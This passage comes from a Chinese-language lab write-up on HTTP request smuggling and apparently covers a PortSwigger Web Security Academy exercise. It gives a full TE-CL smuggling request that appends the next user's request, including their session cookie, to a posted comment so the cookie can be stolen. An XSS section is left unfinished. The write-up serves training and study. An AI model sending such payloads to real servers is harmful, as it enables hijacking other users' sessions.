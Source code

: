 ## ③  获取其他用户的请求

TE - CL 型
该环境目的是通过走私获取 下一个用户请求的信息，即cookie，然后利用走私来的cookie登入

这里有个评论功能，提交的数据会返回到页面， 利用上面的例子方法，进行走私
![ta9bsP.png](https://s1.ax1x.com/2020/06/03/ta9bsP.png)

![ta9HMt.png](https://s1.ax1x.com/2020/06/03/ta9HMt.png)

构造如下进行多次发包
```
POST /post/comment HTTP/1.1
Host: ac401fba1ebf0838808f3c7600ad009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: https://ac401fba1ebf0838808f3c7600ad009e.web-security-academy.net
Connection: close
Referer: https://ac401fba1ebf0838808f3c7600ad009e.web-security-academy.net/post?postId=3
Cookie: session=0QbBFOfss9z1RvzNq4lzfTwBdl3yHgWv
Upgrade-Insecure-Requests: 1
Content-Length: 283
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: session=0QbBFOfss9z1RvzNq4lzfTwBdl3yHgWv
Content-Length: 1200

csrf=skD7lQaAMCHN0JZD38aa8FzazTiXadi8&postId=3&comment=123&name=abbbccc&email=test%40qq.com&website=http%3A%2F%2Fdiego.com


```

查看留言的邮箱
![ta9TxI.png](https://s1.ax1x.com/2020/06/03/ta9TxI.png)
返回了下一个请求的信息（这里的cookie 还是我的，尝试了很多次没有抓取到系统提供的请求）
![ta9oRA.png](https://s1.ax1x.com/2020/06/03/ta9oRA.png)


## ④ 进行 XSS

待续


# 四、参考

[HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)

[HTTP 请求走私](https://misakikata.github.io/2020/03/HTTP-%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/)

[协议层的攻击——HTTP请求走私](https://paper.seebug.org/1048/)
